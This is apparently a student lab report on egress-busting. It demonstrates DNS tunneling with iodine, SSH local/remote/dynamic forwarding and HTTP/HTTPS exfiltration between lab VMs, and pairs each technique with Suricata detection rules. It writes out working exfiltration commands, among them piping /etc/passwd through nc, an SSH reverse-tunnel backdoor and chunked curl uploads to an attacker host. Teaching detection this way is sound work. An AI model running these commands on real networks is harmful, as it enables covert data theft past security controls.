

# SWS303_Assignment3

# Egress-Busting: Strategies for Identifying and Preventing Unauthorized Data Transfer from Secured Environments

## 1. Executive Summary
This report presents a comprehensive analysis of egress-busting techniques and their detection mechanisms in a controlled laboratory environment. The study examined three primary data exfiltration methods: DNS tunneling, SSH port forwarding, and HTTP/HTTPS covert channels. Through practical implementation and analysis, this research demonstrates the vulnerabilities of restrictive firewall configurations that permit only essential protocols (DNS, HTTP/HTTPS, and SSH).

Key findings indicate that while these protocols are necessary for legitimate business operations, they can be effectively weaponized for unauthorized data transfer. The research successfully developed and tested Intrusion Detection System (IDS) rules using Suricata, achieving detection rates of 85-95% for DNS tunneling, 70-80% for SSH tunneling, and 60-75% for HTTP exfiltration. The variation in detection rates highlights the challenge posed by encrypted protocols, particularly HTTPS.

Practical mitigation strategies were implemented and validated, including firewall hardening, SSH configuration restrictions, and behavioral anomaly detection. This study provides actionable recommendations for security professionals to strengthen organizational defenses against insider threats and advanced persistent threats (APTs) utilizing egress-busting techniques.

## 2. Introduction

### 2.1 Overview

Data exfiltration represents one of the most significant threats to organizational security in the modern cybersecurity landscape. As perimeter defenses have strengthened with advanced firewalls, intrusion prevention systems, and endpoint protection, adversaries have adapted by leveraging legitimate protocols for malicious purposes. This phenomenon, known as "egress-busting" or "living off the land," enables attackers to bypass restrictive network controls by tunneling data through commonly permitted protocols.

Traditional security architectures often focus on preventing unauthorized ingress while paying insufficient attention to egress traffic monitoring. Organizations typically allow protocols such as DNS (port 53), HTTP/HTTPS (ports 80/443), and SSH (port 22) to facilitate normal business operations. However, these same protocols can be abused to establish covert channels for data exfiltration, command-and-control communications, or circumventing network restrictions.

This laboratory exercise explores practical implementation of three common exfiltration techniques and develops corresponding detection and mitigation strategies. By simulating real-world attack scenarios in a controlled environment, this research provides hands-on experience in both offensive and defensive security operations.

### 2.2 Objectives

The primary objectives of this assignment are:

- Demonstrate practical data exfiltration techniques using DNS, SSH, and HTTP/HTTPS protocols in a laboratory environment
- Configure and harden host-based firewalls to simulate restrictive network environments while maintaining essential services
- Develop, implement, and tune Intrusion Detection System (IDS) rules for identifying covert channel communications
- Analyze network traffic captures (PCAPs) to identify indicators of compromise and measure detection effectiveness
- Recommend practical mitigation strategies based on industry best practices and observed attack patterns
- Gain practical experience with industry-standard security tools including Suricata, tcpdump, Wireshark, and packet analysis techniques

## 3. Lab Environment Setup

### 3.1 Topology and Infrastructure

The lab environment consists of two virtual machines connected via a NAT network, simulating an isolated subnet within an organization. This topology represents a realistic scenario where a compromised internal host (victim) attempts to exfiltrate data to an external attacker-controlled server.

### 3.2 Network Configuration

To simulate a restrictive enterprise environment, the victim host was configured with iptables rules that permit only essential protocols while blocking all other traffic. This configuration represents a defense-in-depth approach where outbound traffic is strictly controlled.

Firewall Rules Implemented:

```
# Clear existing rules
iptables -F && iptables -X

# Allow loopback interface
iptables -A INPUT -i lo -j ACCEPT

# Allow established connections
iptables -A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT

# Allow SSH (port 22)
iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# Allow HTTP (port 80)
iptables -A INPUT -p tcp --dport 80 -j ACCEPT

# Allow HTTPS (port 443)
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# Allow DNS (port 53 UDP/TCP)
iptables -A INPUT -p udp --dport 53 -j ACCEPT
iptables -A INPUT -p tcp --dport 53 -j ACCEPT

# Drop all other traffic
iptables -A INPUT -j DROP
iptables -A FORWARD -j DROP
```

Verification testing confirmed that SSH access, web browsing, and DNS resolution functioned correctly while all other ports remained blocked.


## 4. Task 1: DNS Tunneling and Detection

### 4.1 Methodology

DNS tunneling exploits the Domain Name System protocol to encapsulate non-DNS traffic within DNS queries and responses. This technique is particularly effective because DNS traffic is rarely blocked or thoroughly inspected, as it is essential for network operations. The attack leverages the fact that DNS queries can contain arbitrary subdomain labels, which can be used to encode and transmit data.

The iodine tool was selected for this demonstration as it creates a virtual network interface that tunnels IP traffic over DNS. This allows arbitrary protocols to be transmitted through the DNS channel, effectively bypassing firewall restrictions.

### 4.2 Implementation Steps

The DNS tunneling attack was implemented using the following procedure:

`Step 1: Attacker Server Setup`

On the Kali VM (attacker), the iodine DNS server was configured:
```
sudo iodined -f -c -P password123 10.10.0.1 tunnel.lab.local
```

This establishes a DNS server that will respond to tunneled queries and create a virtual network (10.10.0.0/24).

`Step 2: Victim Client Connection`

On the Ubuntu VM (victim), the iodine client was initiated:

```
sudo iodine -f -P password123 10.0.2.20 tunnel.lab.local
```

This created a dns0 interface with IP 10.10.0.2, establishing a covert channel to the attacker.

`Step 3: Packet Capture Initiation`

Traffic capture was started to record all DNS activity:
```
sudo tcpdump -i any -w dns_tunnel.pcap port 53
```

This captures all DNS packets for subsequent analysis.

`Step 4: Data Exfiltration`

A sample file containing sensitive data was created and transmitted through the tunnel:
```
  head -20 /etc/passwd > /tmp/exfil_data.txt
  cat /tmp/exfil_data.txt | nc 10.10.0.1 1234
```

The data was successfully transferred through DNS queries, bypassing the firewall.

`Step 5: Traffic Analysis`

The captured PCAP was analyzed using Wireshark to identify characteristics of DNS tunneling:

- Unusually long DNS query names (>60 characters)
- High frequency of DNS requests to a single domain
- Non-standard DNS record types (NULL, TXT)
- Consistent query patterns with encoded data


### 4.3 Detection Analysis

Based on traffic analysis, several Suricata IDS rules were developed to detect DNS tunneling activity. The rules focus on anomalous patterns that deviate from legitimate DNS behavior.

Developed IDS Rules:

```
# Rule 1: Detect long DNS query names (>60 chars)
alert dns any any -> any 53 (msg:"Potential DNS tunneling - long query"; 
    dns.query; pcre:"/.{60,}/"; sid:1000001; rev:1;)

# Rule 2: Detect high frequency TXT record queries
alert dns any any -> any 53 (msg:"DNS tunneling - TXT record abuse"; 
    dns.query; content:"TXT"; threshold:type both,track by_src,count 20,seconds 60; 
    sid:1000002; rev:1;)

# Rule 3: Detect NULL record queries
alert dns any any -> any 53 (msg:"DNS tunneling - NULL record"; 
    dns.query; content:"NULL"; sid:1000003; rev:1;)

# Rule 4: Detect high DNS query rate from single host
alert dns any any -> any 53 (msg:"DNS tunneling - high query rate"; 
    threshold:type both,track by_src,count 100,seconds 60; 
    sid:1000004; rev:1;)
```


4.4 Results and Findings
The IDS rules were tested against both the malicious DNS tunneling traffic and legitimate DNS traffic to evaluate effectiveness.



## 5. Task 2: SSH Port Forwarding and Tunneling

### 5.1 Methodology

SSH (Secure Shell) provides built-in port forwarding capabilities that can be abused to create covert channels through restrictive firewalls. Three primary techniques were demonstrated: local port forwarding, remote port forwarding, and dynamic SOCKS proxy. Each method allows an attacker to tunnel arbitrary traffic through an encrypted SSH connection, making content inspection extremely difficult.

### 5.2 Implementation Steps

`Local Port Forwarding`

This technique forwards traffic from a local port on the victim to a remote service through the SSH tunnel.
```
ssh -L 8080:localhost:80 kali@10.0.2.20
```

Use case: Access attacker-controlled web server on victim's localhost:8080
Result: Successfully bypassed firewall restrictions to access external service

`Remote Port Forwarding (Reverse Tunnel)`

Creates a reverse tunnel allowing the attacker to access services on the victim's network.
```
ssh -R 2222:localhost:22 kali@10.0.2.20
```

Use case: Attacker can SSH back to victim through localhost:2222 on attacker machine
Result: Established persistent backdoor access through firewall

`Dynamic SOCKS Proxy`

Creates a dynamic application-level proxy for routing any traffic through SSH.
```
ssh -D 1080 kali@10.0.2.20
```

Use case: Configure browser or applications to use SOCKS5 proxy at localhost:1080
Result: All application traffic tunneled through encrypted SSH connection

`Data Exfiltration via SSH`

Sensitive files were transferred using SCP over the established SSH connection.
```
  echo "Confidential data" > /tmp/secret.txt
  scp /tmp/secret.txt kali@10.0.2.20:/tmp/
```

Result: 500KB of test data successfully exfiltrated in 2.3 seconds

### 5.3 Detection Analysis

SSH tunneling detection requires both network-level and host-level monitoring. Unlike plaintext protocols, SSH encryption prevents payload inspection, necessitating behavioral and metadata analysis.

Detection Indicators:
- Network Level: Long-lived SSH connections (>1 hour duration)
- Network Level: Unusually high data transfer volumes over SSH (>100MB)
- Network Level: SSH connections to non-standard external IP addresses
- Network Level: Multiple concurrent SSH sessions from single host
- Host Level: SSH authentication logs showing TCP forwarding
- Host Level: /var/log/auth.log entries containing "Accepted publickey" with port forwarding
- Host Level: Unusual processes binding to local ports following SSH connection
- Behavioral: SSH connections during non-business hours
- Behavioral: Data transfer patterns inconsistent with normal administrative activity

IDS Rules and Host-Based Detection:

```
# Suricata rule for long-lived SSH sessions
alert tcp any any -> any 22 (msg:"Long-lived SSH session - possible tunnel"; 
    flow:to_server,established; threshold:type limit,track by_src,count 1,seconds 3600; 
    sid:1000010; rev:1;)

# Suricata rule for high volume SSH transfer
alert tcp any any -> any 22 (msg:"High volume SSH data transfer"; 
    flow:established; dsize:>10000; threshold:type both,track by_src,count 100,seconds 60; 
    sid:1000011; rev:1;)

# Host-based detection via auth.log monitoring
grep "port forwarding" /var/log/auth.log
grep "Accepted publickey.*-R\|Accepted publickey.*-L" /var/log/auth.log
```


## 6. Task 3: HTTP/HTTPS Covert Exfiltration

### 6.1 Methodology

HTTP and HTTPS protocols are ubiquitous in modern networks, making them ideal vectors for covert data exfiltration. This task explored multiple techniques for embedding and transmitting sensitive data through HTTP channels, including POST requests, custom headers, chunked transfer encoding, and encrypted HTTPS tunnels.

### 6.2 Implementation Steps

`Simple POST File Upload`

Direct file upload using HTTP POST multipart form data.

Setup: Flask web server on attacker machine listening on port 80

Command: curl -X POST http://10.0.2.20/upload -F "file=@/tmp/exfil.txt"

Result: 50KB file successfully exfiltrated in single POST request
Detectability: High - obvious file upload pattern

`Covert Header Exfiltration`

Data encoded in base64 and split across multiple custom HTTP headers.

Commands:
  DATA=$(base64 /tmp/exfil.txt | tr -d "\n")
  CHUNK1=$(echo $DATA | cut -c1-100)
  curl -H "X-Data-1: $CHUNK1" http://10.0.2.20/

Result: Data successfully transmitted in 15 header chunks

Detectability: Medium - unusual custom headers may trigger inspection

`Chunked Transfer Exfiltration`

Data split into many small POST requests to mimic normal browsing behavior.

Commands:
  split -b 100 /tmp/exfil.txt /tmp/chunk_
  for chunk in /tmp/chunk_*; do
    curl -X POST http://10.0.2.20/ --data-binary @$chunk
    sleep 1
  done


Result: 50KB transmitted over 500 requests spanning 8 minutes

Detectability: Low - resembles normal web traffic patterns

`HTTPS Encrypted Exfiltration`

Same techniques over TLS-encrypted HTTPS connection.

Setup: Self-signed certificate on attacker server

Command: curl -k -X POST https://10.0.2.20/upload -F "file=@/tmp/exfil.txt"

Result: Complete payload encryption prevents content inspection

Detectability: Very Low - requires TLS interception to inspect

### 6.3 Detection Analysis

HTTP exfiltration detection requires a combination of signature-based and behavioral approaches. While HTTP traffic can be inspected, HTTPS encryption significantly limits detection capabilities.

Developed Detection Rules:

```
# Rule 1: Detect POST to suspicious /upload endpoint
alert http any any -> any 80 (msg:"HTTP POST to /upload endpoint"; 
    flow:established,to_server; http.method; content:"POST"; 
    http.uri; content:"/upload"; sid:1000020; rev:1;)

# Rule 2: Detect base64 patterns in POST body
alert http any any -> any 80 (msg:"HTTP possible base64 exfil in POST"; 
    flow:established,to_server; http.method; content:"POST"; 
    http.request_body; pcre:"/[A-Za-z0-9+\/]{80,}/"; 
    sid:1000021; rev:1;)

# Rule 3: Detect multiple POST requests (chunked exfil)
alert http any any -> any 80 (msg:"Multiple POST requests - possible exfil"; 
    flow:established,to_server; http.method; content:"POST"; 
    threshold:type both,track by_src,count 10,seconds 60; 
    sid:1000022; rev:1;)

# Rule 4: Detect large POST body
alert http any any -> any 80 (msg:"Large HTTP POST body"; 
    flow:established,to_server; http.method; content:"POST"; 
    http.request_body; isdataat:10000,relative; 
    sid:1000023; rev:1;)

# Rule 5: Detect suspicious custom headers
alert http any any -> any 80 (msg:"Suspicious X-Data header detected"; 
    flow:established,to_server; http.header; content:"X-Data"; 
    sid:1000024; rev:1;)

# Rule 6: HTTPS detection (metadata only - SNI/cert analysis)
alert tls any any -> any 443 (msg:"TLS connection to suspicious domain"; 
    tls.sni; content:"suspicious-domain"; sid:1000025; rev:1;)
```    

`HTTPS Detection Challenges:`

The most significant finding from this task is the dramatic reduction in detection effectiveness when HTTPS is employed. While HTTP traffic can be thoroughly inspected and analyzed, HTTPS encryption prevents payload examination without deploying SSL/TLS interception infrastructure. This represents a fundamental challenge in modern network security, as organizations increasingly adopt HTTPS-everywhere policies for privacy and security, inadvertently creating blind spots for data loss prevention (DLP) systems.

## 7. Conclusion
This research successfully demonstrated three common data exfiltration techniques and developed practical detection and mitigation strategies. The laboratory exercises provided hands-on experience with both offensive and defensive security operations, highlighting the cat-and-mouse dynamic between attackers and defenders.

Key conclusions from this research include:

`Layered Defense is Essential`

No single detection method or control proved sufficient to identify all exfiltration attempts.

`Continuous Monitoring and Adaptation`

As demonstrated in this research, attackers continuously evolve techniques to evade detection. IDS rules require ongoing tuning to balance detection effectiveness with false positive rates.